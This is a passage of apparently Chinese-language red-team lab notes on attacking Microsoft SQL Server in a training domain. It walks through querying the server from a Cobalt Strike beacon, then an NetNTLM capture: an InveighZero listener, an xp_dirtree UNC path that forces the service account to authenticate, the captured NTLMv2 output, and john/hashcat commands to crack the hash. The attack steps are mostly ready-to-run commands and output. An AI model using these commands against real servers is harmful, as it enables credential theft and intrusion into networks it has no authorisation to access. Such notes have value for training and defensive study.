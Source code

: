 IsSysadmin             : Yes
ActiveSessions         : 1
```

```Get-SQLQuery```执行sql命令
```
beacon> powershell Get-SQLQuery -Instance "srv-1.dev.cyberbotic.io,1433" -Query "select @@servername"

Column1
-------
SRV-1 
```


```mssqlclient.py```连接mssql，需要账号密码
```
root@kali:~# proxychains python3 /usr/local/bin/mssqlclient.py -windows-auth DEV/bfarmer@10.10.17.25
```

GUI连接工具:[HeidiSQL](https://www.heidisql.com/)或者[SMSS](https://docs.microsoft.com/en-us/sql/ssms/download-sql-server-management-studio-ssms)

![alt GUI](https://rto-assets.s3.eu-west-2.amazonaws.com/sql-servers/heidi.png?width=1920)


# MSSQL NetNTLM Capture

通过mssql的xp_dirtree命令可以进行中继攻击

## 方法一

1. 监听
首先在本地监听，使用[InveighZero](https://github.com/Kevin-Robertson/InveighZero)进行监听，需要本地管理员权限
```
beacon> execute-assembly C:\Tools\InveighZero\Inveigh\bin\Debug\Inveigh.exe -DNS N -LLMNR N -LLMNRv6 N -HTTP N -FileOutput N
```
2. 触发
在mssql上，执行命令```EXEC xp_dirtree '\\10.10.17.231\pwn', 1, 1```，10.10.17.231的IP地址就是上面监听的机器

3. 收到NTML
监听机器收到的NTML应该是下面格式
```
[+] [2021-05-14T15:33:49] TCP(445) SYN packet from 10.10.17.25:50323
[+] [2021-05-14T15:33:49] SMB(445) negotiation request detected from 10.10.17.25:50323
[+] [2021-05-14T15:33:49] SMB(445) NTLM challenge 3006547FFC8E90D8 sent to 10.10.17.25:50323
[+] [2021-05-14T15:33:49] SMB(445) NTLMv2 captured for DEV\svc_mssql from 10.10.17.25(SRV-1):50323:
svc_mssql::DEV:[...snip...]
```

4. 破解
john
```
john --format=netntlmv2 --wordlist=wordlist svc_mssql-netntlmv2
```

hashcat
```
hashcat -a 0 -m 5600 svc_mssql-netntlmv2 wordlist
```

## 方法二

可以使用 WinDivert + rportfwd把smb流量转发到teamserver（就是kali机），然后再kali使用[smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py)监听，这个方法前面几章已经有展示。
```